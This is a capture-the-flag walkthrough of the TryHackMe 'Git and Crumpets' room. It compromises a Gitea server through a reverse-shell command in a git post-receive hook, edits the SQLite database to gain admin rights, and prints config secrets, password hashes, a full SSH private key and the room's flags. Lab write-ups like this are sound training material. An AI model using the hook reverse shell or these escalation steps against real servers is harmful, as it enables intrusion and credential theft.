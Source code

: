 # Tryhackme.com Room : Git and Crumpets

`https://tryhackme.com/room/gitandcrumpets`

## Instance

```bash
export IP="10.10.187.192"
```

## Nmap

```
22/tcp   open   ssh        OpenSSH 8.0 (protocol 2.0)
80/tcp   open   http       nginx
9090/tcp closed zeus-admin
```



## Initial foothold

When we try to reach port `80` we are redirected to a rick roll video on youtube..

If we `curl -v $IP` we get a `301` redirection to the youtube video and the following body:

```
<h1>Nothing to see here, move along</h1>
<h2>Notice:</h2>                                                                                                         
<p>
Hey guys,
I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet.
In the meantime, here's a fun video I found!     
Hydra
</p>
```

With a rickroll ascii art.

We find the potential user

```
hydra
```

We set the domain `git-and-crumpets.thm` and the subdomain `git.git-and-crumpets.thm` in our host file



`http://git.git-and-crumpets.thm/` resolve to a `gitea` instance.

Looking at the source, we see that it's `gitea version 1.14.0`

Doesn't seem like there is any exploits for this version of `gitea`



We can register a user an browse the public repos.

We find the users

```
hydra
root (groot)
scones
test
```

And the repos

```
hydra/hello-world
	Single commit, nothing in there
scones/cant-touch-this
	Which have 5 commits
```

Here are the commit messages

```
Delete License
Delete Passwords File (I kept the password in my avatar to be more secure.)
Add passwords 
Update 'README.md' 
Initial commit
```

We then download `scones` avatar and run `exiftool` on it. We find :

```
Description                     : My 'Password' should be easy enough to guess
```

We just try the password `Password` with the user `scones` and it work.

Doesn't seem to give us anything tho, we see the same repos/users.

Tried to extract passwords from other users avatar without success.

Tried to login via `ssh` with `scones:Password` without success.



After running in circle for a while, I decided to peak at a writeup to get an hint.

The writeup mention `git-hooks`.

Let's look into it.

The user that we created probably don't have right to create `hooks` but the `scones` user does.

We create a new repo, then in `settings -> git hooks -> post-receive` we set a revshell payload :

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.6.32.20/9001 0>&1
```

We then init our repo and push something. We get a revshell as `git` user



We find `/home/git/user.txt` (Which is base64 encoded) :

```
thm{fd7ab9ffd409064f257cd70cf3d6aa16}
```



Now we can add ourselves to the `/home/git/.ssh/authorized_keys` and login via `ssh`

## Priv esc

We are now user `git`

We can't `sudo -l`

We don't have access to `wget` or `curl` but we have `python3` so we write a little helper script to download files :

```
import os,sys
import urllib.request
f = open(os.path.basename (sys.argv[2]), 'wb')
f.write(urllib.request.urlopen(sys.argv[1]).read())
f.close()
```

We can now download file with `python3 dl.py http://{url} {filename}`



Doesn't seem to be any `cron` jobs running. I did run `pspy` and nothing seems to be running.

I did also run `linpeas.sh` but didn't find anything interesting



Browsing around, we find the `gitea` config file in `/etc/gitea/app.ini` :

```
[security]
INTERNAL_TOKEN     = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYmYiOjE2MTgzODY1NzF9.Ji9cW44tpPJwDmkq-rZawLBIy7YBLCTSdZsvl3cilW4
INSTALL_LOCK       = true
SECRET_KEY         = Dssc6mJp6GeDGzAdlikWML6QZ17J9bfl9Cg2QyLq4DZIZDoa3KbgDjDLI4X3IpnS
PASSWORD_HASH_ALGO = pbkdf2
DISABLE_GIT_HOOKS = false

[database]
DB_TYPE  = sqlite3
HOST     = 127.0.0.1:3306
NAME     = gitea
USER     = gitea
PASSWD   = 
SCHEMA   = 
SSL_MODE = disable
CHARSET  = utf8
PATH     = /var/lib/gitea/data/gitea.db
LOG_SQL  = false
```

We retrieve the `gitea` database. We get the hashes for all users :

```
user:hash:salt
hydra:9b020d3e158bc31b5fe64d668d94cab38cadc6721a5fdf7a4b1fb7bf97021c5e68f56bd9bd44d5ce9547e5e234086342c4e4:3C4NzJWN9e
root:2181d2b5fbf1859db426bcb94d97851d9a0e87a5eb47c5edc7f92bffc45b679e554c8367084f379e59936b68c0d770823ec9:5e5xPrzvBr
```

After a while trying to figure out how to crack these hash, I gave up and went back to the writeup for another hint.

The writeup mention modifying the `sqlite` db to give our user the admin rights.

So let's do this.

Now we have access to a `site administration` menu. In there we can browse all repos.

We see a private repo `root/backup` which has 2 branches and 4 commits on the `dotfiles` branch.

Looking at the commit history, we see that the `ssh key` has been commited "by mistake". We can then grab it :

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
f+V62ikG7042lp/fhTYiDgRfvXA=
-----END OPENSSH PRIVATE KEY-----
```

The key is protected by a passphrase. Let's crack it with `john the ripper`

Well, couldn't crack it with `john`. Going back on `gitea` we see that the private key file is named `Sup3rS3cur3` and this is indeed the password.

We find `/root/root.txt` :

```
thm{6320228dd9e315f283b75887240dc6a1}
```



## Wrap up

* This challenge was pretty `git` specific. Didn't know about those attack vectors. I learned some interesting stuff
  * `Git Hooks` can be used to exploit `gitea` or pretty much any `git` server that allow for server-side `hooks`
* If you can, always try to give yourself `admin` priviledges. Might allow for more actions.
* Pay attention to details, the fact that the passphrase for the ssh key was the filename didn't click with me. I jumped to cracking the passphrase without trying to find some hints first.

